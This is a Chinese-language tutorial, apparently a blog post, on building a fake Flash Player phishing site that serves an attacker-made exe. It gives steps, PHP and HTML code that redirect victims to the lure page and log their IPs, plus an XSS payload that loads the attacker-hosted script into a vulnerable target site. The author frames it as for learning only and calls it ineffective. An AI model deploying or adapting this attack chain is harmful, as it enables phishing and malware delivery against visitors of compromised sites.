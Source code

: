 # 原版的无法实现自动收杆的效果，就简单改了一下

**好了，正文开始**

需要准备好的东西：域名、一台服务器、弹窗源码、鱼站源码以及做好的exe文件


## 第一步：在服务器上已经配置好NGINX+PHP的环境

省略步骤......


## 第二步：上传鱼站和制作好的exe文件
随便找个鱼站放上去

这里我使用的是x0rz4师傅开源的代码：`https://github.com/x0rz4/Flash_fishing`
然后打开index.html 将所有包含`www.flash.cn`的外链都删了(因为懒)，这样随便点也不会跳转到官方网站了(随意,你想怎么改都行)

最关键的是如何让下载的文件是你制作的, 就是后面的步骤了
修改`/config/flashVersion`这个文件基本上所有下载地址都在这里了，建议全部换成你的域名


创建一个目录`/cdm/latest/`, 这个路径是上面flashVersion中写的路径，用来防止exe文件

## 第三步：上传xss.html弹窗调用页面
主要用于后面的xss
```
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <script src='./flash.js'></script>
    </head>
    <body>
    </body>
</html>
```
## 第四步：上传弹窗代码

可以看到上面调用了 `flash.js`,我使用的是r00tSe7en师傅的开源弹窗代码：`https://github.com/r00tSe7en/Flash-Pop` , 因此上传这个flash.js

接着修改这个JS，搜索`onclick=window.location.href='https://www.se7ensec.cn/'>`  全JS代码只有这么一个

把这个域名更换成鱼站的地址127.0.0.1

## 第五步：上传收杆检测代码

xss1.php
```
<!-- xss.php的改版 -->
<?php
$xssPayload =  "window.location.href=\"https://127.0.0.1/xss.html\";";
$db = "botIPs.txt";

$ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
$botIP = @$_GET['ip'];

/**
1、获取IP
2、判断是否存在对应文件
3、读取里面的内容
*/
// var_dump($_REQUEST);
// var_dump($_SERVER);
if(! $_REQUEST['ip']){
    $ip_content = file_get_contents($db);
    $ip_array = explode(PHP_EOL,$ip_content);
    if(! in_array(base64_encode($ip),$ip_array)){
		header('Content-type: text/javascript');
		echo $xssPayload;
    }
}else{
    if (!is_null($botIP)){
    	file_put_contents($db,base64_encode($botIP).PHP_EOL,FILE_APPEND);
    }
}
?>
```

## 第六步：插入目标

在目标xss漏洞存在的地方插入`<script type="text/javascript" src="https://127.0.0.1/xss.php"></script>`

**姜太公钓鱼，愿者上钩**

# 总结

当所有的东西都配置完成后，你会发现毫无卵用，只要不是傻子一看就能看出来。

那为什么还要写呢? 纯属学习娱乐，原作者的自动收杆没整明白哪一步出了问题导致没复现出来，所以取个巧体验体验自动收杆的感觉。

因此切莫用于实战，否则你将每天过着规律的生活作息，吃着丰盛的美食以及做着充足的劳动。
所谓在规律中改造，秩序中生活，在潜移默化中重塑自我，在积极改造的路上奔向新生，迎接希望！！！
